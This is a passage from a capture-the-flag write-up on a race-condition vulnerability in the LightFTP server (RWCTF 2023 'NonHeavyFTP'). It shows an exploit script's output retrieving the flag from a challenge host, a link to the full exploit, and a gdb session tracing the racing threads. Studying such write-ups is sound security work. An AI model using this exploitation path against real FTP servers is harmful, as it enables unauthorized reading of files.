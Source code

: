 The running result is shown as below:

```bash
$ python exp.py
[+] Opening connection to 47.89.253.219 on port 2121: Done
list remote port: 41092
[+] Opening connection to 47.89.253.219 on port 41092: Done
[+] Receiving all data: Done (1018B)
[*] Closed connection to 47.89.253.219 port 41092
[*] Closed connection to 47.89.253.219 port 2121
flag path: /flag.deb10154-8cb2-11ed-be49-0242ac110002
[+] Opening connection to 47.89.253.219 on port 2121: Done
retr remote port: 42644
[+] Opening connection to 47.89.253.219 on port 42644: Done
[+] Receiving all data: Done (48B)
[*] Closed connection to 47.89.253.219 port 42644
[*] Closed connection to 47.89.253.219 port 2121
flag: rwctf{race-c0nd1tion-1s-real1y_ha4d_pr0blem!!!}
```

The full exp is in my [github](https://github.com/f0cus77/CTF/tree/main/RWCTF-2023/NonHeavyFTP).

## Debug

In this section, i'll try to debug the vulnerability in gdb to get a deeper understanding of race condition vulnerability and multiple thread debugging.

To debug the server conveniently, we can compile the debug version of the ftp server instead of release version as the dockerfile shows. The commands to compile the debug version are shown as below:

```bash
sudo apt-get install -y --no-install-recommends wget unzip gcc make libc6-dev gnutls-dev uuid
cd LightFTP-2.2/Source/Debug
make
```

Run gdb with the `fftp` binary, and debug with the `fftp.conf`.

```bash
gdb fftp
run fftp.conf
```

After sending `LIST /` the command, break gdb and start to debug.  At this moment, the `list_thread` will stuck at the `create_datasocket` function.

As shown below, the `4th` thread is stucked at `__libc_accept`, debug the thread and run with the command `thread 4`, and `bt` to check the stack, we can see it's in the `create_datasocket` function, and the context address is `0x7ffff4926ba0`.

```bash
pwndbg> info thread
  Id   Target Id                                Frame
* 1    Thread 0x7ffff7755940 (LWP 91609) "fftp" __GI___libc_read (nbytes=1024, buf=0x555555595770, fd=0) at ../sysdeps/unix/sysv/linux/read.c:26
  2    Thread 0x7ffff7754640 (LWP 91612) "fftp" 0x00007ffff7cbe60f in __libc_accept (fd=3, addr=..., len=0x7ffff7753c0c) at ../sysdeps/unix/sysv/linux/accept.c:26
  3    Thread 0x7ffff492d640 (LWP 91678) "fftp" __libc_recv (flags=<optimized out>, len=4095, buf=0x7ffff492bc40, fd=4) at ../sysdeps/unix/sysv/linux/recv.c:28
  4    Thread 0x7fffeffff640 (LWP 91679) "fftp" 0x00007ffff7cbe60f in __libc_accept (fd=6, addr=..., len=0x7fffefffeb58) at ../sysdeps/unix/sysv/linux/accept.c:26
  
pwndbg> thread 4
...
pwndbg> bt
#0  0x00007ffff7cbe60f in __libc_accept (fd=6, addr=..., len=0x7fffefffeb58) at ../sysdeps/unix/sysv/linux/accept.c:26
#1  0x0000555555558a4c in create_datasocket (context=0x7ffff4926ba0) at ../ftpserv.c:127
#2  0x00005555555599f1 in list_thread (context=0x7ffff4926ba0) at ../ftpserv.c:497
```